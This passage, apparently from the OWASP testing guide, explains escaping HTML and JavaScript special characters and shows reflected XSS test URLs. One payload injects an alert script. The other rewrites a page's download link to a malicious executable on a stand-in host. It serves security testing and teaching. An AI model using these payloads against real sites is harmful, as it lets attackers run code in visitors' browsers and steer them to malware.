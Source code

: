 
Ideally all HTML special characters will be replaced with HTML entities. The key HTML entities to identify are:
```
> (greater than)
< (less than)
& (ampersand)
' (apostrophe or single quote)
" (double quote)
```


However, a full list of entities is defined by the HTML and XML specifications. Wikipedia has a complete reference [http://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references].


Within the context of an HTML action or JavaScript code, a different set of special characters will need to be escaped, encoded, replaced, or filtered out. These characters include:
```
\n (new line)
\r (carriage return)
\' (apostrophe or single quote)
\" (double quote)
\\ (backslash)
\uXXXX (unicode values)
```


For a more complete reference, see the Mozilla JavaScript guide. [https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Values,_variables,_and_literals#Using_special_characters_in_strings]


##### Example 1
For example, consider a site that has a welcome notice " Welcome %username% " and a download link.
<br><br>
![Image:XSS Example1.png](https://www.owasp.org/images/a/ad/XSS_Example1.png)
<br><br>
The tester must suspect that every data entry point can result in an XSS attack. To analyze it, the tester will play with the user variable and try to trigger the vulnerability.


Let's try to click on the following link and see what happens:
```
http://example.com/index.php?user=<script>alert(123)</script>
```


If no sanitization is applied this will result in the following popup:
<br><br>
![Image:alert.png](https://www.owasp.org/images/d/d6/Alert.png)
<br><br>
This indicates that there is an XSS vulnerability and it appears that the tester can execute code of his choice in anybody's browser if he clicks on the tester's link.


##### Example 2
Let's try other piece of code (link):
```
http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");
AllLinks[0].href = "http://badexample.com/malicious.exe"; }</script>
```
